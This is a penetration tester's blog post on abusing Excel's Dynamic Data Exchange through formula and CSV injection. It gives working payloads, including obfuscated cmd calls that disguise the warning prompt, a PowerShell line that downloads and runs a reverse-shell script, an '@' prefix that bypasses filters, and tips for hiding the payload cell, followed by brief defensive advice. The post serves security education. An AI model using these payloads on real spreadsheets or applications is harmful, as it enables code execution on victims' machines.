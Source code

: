 ```yaml
---
layout: page
sidebar: right
subheadline: 'Pentesting'
title:  "Living Off the Land With DDE"
teaser: "A pen tester's guide to using native Windows programs and tools, specifically  Dynamic Data Exchange (DDE), to excel in your next PenTest!"
breadcrumb: true
categories:
    - infosec
tags:
    - blog
    - infosec
    - post
    - pentesting
    - office
    - windows
image:
    thumb: lol-dde/DDE-Excel2.png
    title: lol-dde/DDE-Excel2.png
---
```


I'm a huge fan of living off the land when it comes to hacking and working my way through a network. There are few things that feel better than taking a perfectly reasonable tool and flipping it inside out for my own benefit.

Recently, I was working on a penetration test for a web application, and I found a file upload function that allowed users to upload and download Excel files. The first thing that came across my mind - macros. But when I tried to upload a macro-enabled xlsm file, I was denied.

So I started hunting for other ways to exploit within file uploads. I knew about weaponized PDFs and other run-of-the-mill methods, but those seemed boring, and I was trying to be a little more original. I thought to myself, "It would be Excel-ent to be able to do this without macros..." 

        (•_•)               ( •_•)>⌐■-■            (⌐■_■)

Like most professionals, I realized I knew nothing and went to Google for help. I searched for how to load a payload into an excel without macros, expecting nothing, and was surprised to find my new favorite “feature” (keep reading) - Dynamic Data Exchange.
# Dynamic Data What Now?
According to Wikipedia, Dynamic Data Exchange (DDE) was first introduced in 1987 as a method to share data between applications in such as way that if it was updated in one, it would be updated in the other. Sounds great right? Well as it turns out, application and network security practices were not as important in 1987 as they are today - and that's saying something.

Microsoft implements DDE within its Office suite of applications to allow the transfer of data in a variety of ways. As a matter of fact, it’s still documented on microsoft.com as a feature included with Office ["for one-time data transfers and for continuous exchanges in which applications send updates to one another as new data becomes available."](https://docs.microsoft.com/en-us/windows/desktop/dataxchg/about-dynamic-data-exchange)

The basic idea is that you can have a spreadsheet or document that subscribes to an outside data source and automatically updates when changes occur. In theory, that sounds very helpful and is probably very useful in financial or medical spaces. However, there is a dark side to this force.
# Living Off the Land with DDE
As it turns out, DDE commands can execute just about any program - not to sugar coat it too much. Worse still, they can mask what programs they are executing. To a user opening an Excel document, nothing really looks out of the ordinary.

Even with the warning messages that Microsoft now forces them to display before they run, a typical user will probably do what they always do and click right on through. More than likely they downloaded the document from a trusted source.

What might be the worst part about this whole attack vector, though, is that this feature is built into every modern version of Office. Virtually every desktop computer running in an office can be exploited by DDE, and if it's done correctly, the user probably won't even know.
# So How Do You Do It?
As I mentioned above, DDE is a feature built into Microsoft Office, meaning it can be used within Word, Excel, and other applications. This article will focus on Excel, but vectors have been discovered for using the same principles in the other Office programs like Word and Outlook as well.

Starting off in the most basic and benign way possible, I will show how to use a DDE payload in Excel to open a calculator.
<figure style="text-align:center; margin:1em">
<img src="/images/lol-dde/calc-cmd.gif" alt="DDE-Calc">
<figcaption style="font-size:small">
 =CMD|'/c calc.exe'!'a1'
</figcaption>
</figure>

# Let's Break This Down
When Excel comes across a '=' it knows to evaluate the contents of the cell. Normally, this is used to add something or run a built-in Excel function, but DDE allows a user to run any executable. One such function that is allowed by default is cmd. By using cmd, the following arguments take the same set of options as a standard Windows command prompt. I used '/c' in this example to run the program called and then terminate the promp, but you could use ‘/k’ to leave the shell running if you wanted to. After that, it's just a matter of picking a program like calc.exe and finishing the DDE syntax for Excel.
# Let's Make This Sneakier
So that payload will let you run just about anything installed on the computer (actually…really anything), but a warning will pop up asking the user if they want to run CMD.EXE. That's not exactly the friendliest warning - even though people just say ok to pop-ups anyway. But we can do better.
<figure style="text-align:center; margin:1em">
<img src="/images/lol-dde/dde-calc-obfuscated.gif" alt="DDE-Calc">
<figcaption style="font-size:small">
=MSEXCEL|'..\..\..\..\Windows\system32\cmd.exe /c calc.exe'!'a1'
</figcaption>
</figure>

This doesn't do anything different, except now the warning message asks to run MSEXCEL.EXE. Well, of course the user wants to run MSEXCEL.EXE - that's what they clicked on in the first place. The rest of the payload just brings the exploit back to using cmd.exe with the same options as before, and a new calculator is born!

In addition, feel free to hide the cell in the spreadsheet. When these payloads execute, they tend to leave behind a reference error. A hidden field (maybe in the 1000th row) won't draw as much attention if a spreadsheet is loaded with a bunch of decoy data.
# Let's Make This Scarier
So now we basically have a well-hidden payload that opens a calculator...yay. But if you remember, DDE can be used to run any command. In the spirit of continuing to live off the land, let's try PowerShell.

<figure style="text-align:center; margin:1em">
<img src="/images/lol-dde/dde-shell-obfuscated.gif">
<figcaption style="font-size:small">
=MSEXCEL|'..\..\..\..\Windows\system32\cmd.exe /c powershell.exe $e=(New-Object System.Net.WebClient).DownloadString(\"http://127.0.0.1/revshell.ps1\");powershell $e'!'a1'
</figcaption>
</figure>


Nice. A one-line PowerShell script to download what appears to be a reverse shell and execute it. This particular script will open a PowerShell window, but adding '-windowstyle hidden' should take care of that, and frankly the damage is already done.  Plus, we still haven't used anything that Microsoft didn’t give us for free (er…“free”). That isn't to say we couldn't. We can download anything and run it.

<figure style="text-align:center; margin:1em">
<img src="/images/lol-dde/dde-chrome-obfuscated.gif">
<figcaption style="font-size:small">
=MSEXCEL|'..\..\..\..\Windows\system32\cmd.exe /c "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe"'!'a1'
</figcaption>
</figure>

# Let's Make This More Flexible
In some cases, the payloads above won't work. For example, I once tried to use DDE in a CSV export function (by the way...this works for any type of file that can be opened in Excel) that took user input and sent it to a file that can be saved to a user's machine. I saved the payload into the application, but when I downloaded the CSV, the '=' was removed. It looked like game over, but guess what.

What?

It wasn’t.
 
<figure style="text-align:center; margin:1em">
<img src="/images/lol-dde/dde-calc-with-at-sign.gif">
<figcaption style="font-size:small">
@SUM(cmd|'/c calc.exe'!a1)
</figcaption>
</figure>

Turns out, the '@' sign is a valid evaluation prefix as well. The same rules apply as all the previous payloads. The initial CMD can be replaced by MSEXCEL, and feel free to go beyond the dreaded calculator.
# Defend Yourselves
The best way to defend against malicious DDE payloads is to limit the types of files that can be uploaded to only the most necessary for your workflow. If you don't need Excel-style files, don't allow them - even if macros are disabled.

Additionally, applications that export user-defined fields to Excel-friendly files should not allow DDE payloads as input. This means filtering '=' and '@' for sure, but really anything that falls outside the scope of the application's requirements.  If you NEED to use ‘=’ and ‘@’ at the beginning of a text field I suppose you can add a single quote to the front of the value when it’s exported.  Doing so will keep Office from evaluating what comes next.  But you probably don’t NEED them anyway – unless you are promoting a twitter handle (say for example, [@_hansonet_](https://twitter.com/_hansonet_)).
# Final Notes
The most surprising thing about this particular security issue is that I had never heard of it before. Between classes, conversations, and conventions, I had never heard anyone even mention what I believe is a fairly effective, and dangerous security hole. Apart from a couple of very recent blog posts, there wasn't much to go off of, but a lot to be gained by looking into DDE.

DDE is a feature, not likely to go away any time soon. At the time of this writing, Microsoft has disabled automatic execution and presents a warning prompt, but how often does depending on user work as an effective defense? The only real defense is to limit file uploads, inspect file content, and filter user input.  Enjoy, and leave a comment if you’ve had any personal success with this!
